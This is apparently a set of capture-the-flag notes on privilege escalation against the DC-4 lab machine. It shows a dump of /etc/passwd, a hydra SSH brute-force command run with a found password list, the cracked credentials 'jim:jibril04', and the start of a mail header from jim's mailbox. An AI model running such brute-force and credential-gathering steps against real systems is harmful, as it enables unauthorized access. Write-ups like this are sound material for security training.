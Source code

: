 ## Privilege Escalation
### Enumeration
- `/etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
nginx:x:107:111:nginx user,,,:/nonexistent:/bin/false
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
Debian-exim:x:108:112::/var/spool/exim4:/bin/false
```
- Users on the box
	- root
	- charles
	- jim
	- sam
- Perform hydra on SSH service using `happy` and username list to gain persistence - NO RESULTS

- `/home/jim/`
	- `/backups/`
		- Has file `old-passwords.bak`
		- Download this file and run hydra against `jim`
		- `hydra -l jim -P old-passwords.bak -t 4 ssh://192.168.70.195` - SUCCESS
			- Credentials found `jim:jibril04`
- `/var/mail/jim`
	- There are emails
```
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
        (envelope-from <charles@dc-4>)
        id 1hCjIX-0000kO-Qt
        for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
```